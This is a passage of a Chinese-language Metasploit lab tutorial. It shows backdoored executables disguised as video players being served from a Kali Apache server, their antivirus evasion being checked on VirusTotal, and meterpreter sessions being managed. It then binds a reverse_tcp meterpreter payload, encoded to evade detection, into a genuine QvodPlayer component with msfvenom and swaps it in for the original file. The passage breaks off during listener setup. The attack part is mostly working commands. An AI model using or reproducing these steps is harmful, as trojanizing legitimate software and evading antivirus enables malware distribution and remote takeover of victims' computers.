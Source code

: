 ###### 3、在 Kali 上启动 apache 为后门程序提供下载地址 

```
##在 Kali 上再打开一个终端，启动 apache，方便在 win7 上下载执行程序 ##
systemctl start apache2 #kali 自带 apache 服务器 
```

###### 4、打开 win7 访问 Kali 搭建的 Web 服务下载执行文件。 

```
打开浏览器分别访问： http://192.168.36.136/西瓜影音 1.exe 
				  http://192.168.36.136/西瓜影音 2.exe 
```

> 使用 virustotal 检测下生成后门的免杀能力，VirusTotal.com 是一个免费的病毒，蠕虫，木马和各 种恶意软件分析服务，可以针对可疑文件和网址进行快速检测，最初由 Hispasec 维护。它与传统杀毒软 件的不同之处是它通过多种杀毒引擎扫描文件。使用多种反病毒引擎可以令用户们通过各杀毒引擎的侦测 结果，判断上传的文件是否为恶意软件。 
>
> 打开：https://www.virustotal.com/ 双击运行 西瓜影音 1.exe 程序 

###### 5、在 MSF 终端查看建立的 session Shell 中输入 ipconfig 查看 win7 主机的 IP 地址。 

```
meterpreter > ipconfig  
meterpreter > dir #查看当前目录下的内容 
```

###### 6、将会话保存到后台，方便以后使用 

```
meterpreter > background  
msf6 exploit(multi/handler) > sessions 			#查看会话 
msf6 exploit(multi/handler) > sessions -i 1 	#指定会话 ID，调用新的会话 
meterpreter > exit 								#如果不想使用了，就退出，断开会话 7、查看拿到会话													后可以执行哪些命令 
meterpreter > help 								#由于命令太多，可以体验下每个命令的使用方法
```

> ###### 模拟黑客给真正的快播软件加上后门 
>
> 1、先下载一个正常的快播软件 我已经下载绿色版本，免安装的快播软件。 解开这个包后，找到 QvodTerminal.exe 。 
>
> ```
> 给一个正常的软件加后门的思路是什么？ 
> 先查看主程序会调用哪些附加的小程序，然后把 payload 后门和这些小程序绑定到一起。当然也可以直接加到主程序上，但是加主程序上，有时报错。当 QvodPlayer.exe 主程序运行时，会自动调用 QvodTerminal.exe 这个小程序。
> ```
>
> 2、上传到 QvodTerminal.exe 到 kali 上 
>
> 3、对 QvodTerminal.exe 注入 payload 后门程序 
>
> ```
> msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=192.168.36.136 LPORT=4444 -b"\x00" -e x86/shikata_ga_nai -i 10 -x  QvodTerminal.exe -f exe -o /var/www/html/QvodTerminal.exe 
> ```
>
> 4、使用绑定了后门的 QvodTerminal.exe 替换原来的 QvodTerminal.exe 在 win7 虚拟机上下载绑定了后门的 QvodTerminal.exe 在浏览器上访问：http://192.168.36.136/QvodTerminal.exe 下载 QvodTerminal.exe 将下载的 QvodTerminal.exe 替换原文件中的 QvodTerminal.exe 
>
> 5、在 kali 上开始监听后门 
>
> ```
> msf6 > use exploit/multi/handler 
> msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
> msf6 exploit(multi/handler) > set LHOST 192.168.36.136 